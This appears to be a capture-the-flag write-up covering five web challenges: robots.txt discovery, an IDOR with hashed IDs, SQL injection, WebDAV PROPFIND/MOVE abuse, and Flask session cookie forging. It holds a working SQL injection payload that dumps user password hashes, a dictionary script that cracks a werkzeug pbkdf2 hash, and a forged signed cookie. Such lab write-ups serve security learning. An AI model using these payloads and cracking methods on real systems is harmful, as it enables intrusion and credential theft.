 ### All about robots
On the giving web page, taking chall name as hint, if we go to *robots.txt end point, we see a disallowed html page. Going to that endpoint, we find the flag

### IDoor
Going to the webpage, we see the customer id is 11. Further when we see the url, the endpoint looks like an encoded string. SHA256 decoding the string gives us the value 11 that is equal to the
custoer id. With a bit of trial and error, by sha256 encoding different integers, we finally get a hit on 0, and the flag is obtained

### Hacker web store
We have been given a products page, a creation page and a passwords list. Wehn we try sql inputs in the creation page, we see the app is vulnerable to sql injection and the error message showed the structure of the insertion command. Using that we can craft a payload like:
```
1') , ('Product2', (SELECT name FROM users LIMIT 1 OFFSET 0), 'Description3
```
Here lmit means only 1 row printed, and choosing different offsets to get all the users we get 3 users and their password hashes:
```
Joram : pbkdf2:sha256:600000$m28HtZYwJYMjkgJ5$2d481c9f3fe597590e4c4192f762288bf317e834030ae1e069059015fb336c34
James : pbkdf2:sha256:600000$GnEu1p62RUvMeuzN$262ba711033eb05835efc5a8de02f414e180b5ce0a426659d9b6f9f33bc5ec2b
website_admin_account : pbkdf2:sha256:600000$MSok34zBufo9d1tc$b2adfafaeed459f903401ec1656f9da36f4b4c08a50427ec7841570513bf8e57
```
We need to login using the admin account by cracking its password hash<br>
From a writeup, got this script:
```
from werkzeug.security import _hash_internal
import sys

def generate_password_hash(password, method="pbkdf2:sha256:600000"):
    salt = "MSok34zBufo9d1tc"
    h, actual_method = _hash_internal(method, salt, password)
    return "%s$%s$%s" % (actual_method, salt, h)

f = open("pass.txt", "r")
o = open("crack-admin.txt", "w")

for x in f:
   hash = generate_password_hash(x.strip(),method='pbkdf2:sha256:600000')
   a = f"{x.strip()} {hash}"
   o.write(a)
   print(x.strip())
   if hash == "pbkdf2:sha256:600000$MSok34zBufo9d1tc$b2adfafaeed459f903401ec1656f9da36f4b4c08a50427ec7841570513bf8e57":
       print(f"{x.strip()} found password")
       sys.exit()
o.close()
```
```
ntadmin1234 found password
```
We can login now with website_admin_account:ntadmin1234 and get our flag

### The Davinci code
Since the challenge mentions dav, if we look up , we find methods like propfind to give us files and directories <br>
Using propfind on the site, gives us a /the_secret_dav_inci_code endpoint<br>
using it again we get /flag.txt endpoint but we cant use it directly<br>
We need to move the file to /static using move method and then we get the flag<br>

### Thomas deverson
Looking at the source code of the page, we find a /backup end point <br>
Going to the endpoint point, we see a flask code segment<br>
![image](https://github.com/poorvi1910/Web/assets/146640913/e949eff9-f3d3-40a7-be10-b1226c52f2bc)<br>
But using all three names in usename field is blcoked. That means we need to forge cookies<br>
The scret key according to flask code is ```f'THE_REYNOLDS_PAMPHLET-{ datetime.now().strftime("%Y%m%d%H%M") }'```<br>
If we try computing the date from the uptime given in the Status page:
 ```
#jumping ahead, now() doesn't work, but utcnow() does
sign({"name":"Burr"}, f'THE_REYNOLDS_PAMPHLET-{(datetime.utcnow() - timedelta(days=82816, hours=16, minutes=51)).strftime("%Y%m%d%H%M")}')
# 'eyJuYW1lIjoiQnVyciJ9.Zk_0mg.WlX1PYbdc8xh-svaFZj7aKa-wFs'
```
We get the flag
```
 <div class="col-xl-6 ml-auto jumbo-vertical-center">
        <div>
            <h1>Welcome fellow Democratic Republican!</h1>
            <p>Don't tell Hamilton, but we totally know what he did.</p>
            <strong>flag{f69f2c087b291b9da9c9fe9219ee130f}</strong>
        </div>
      </div>
```
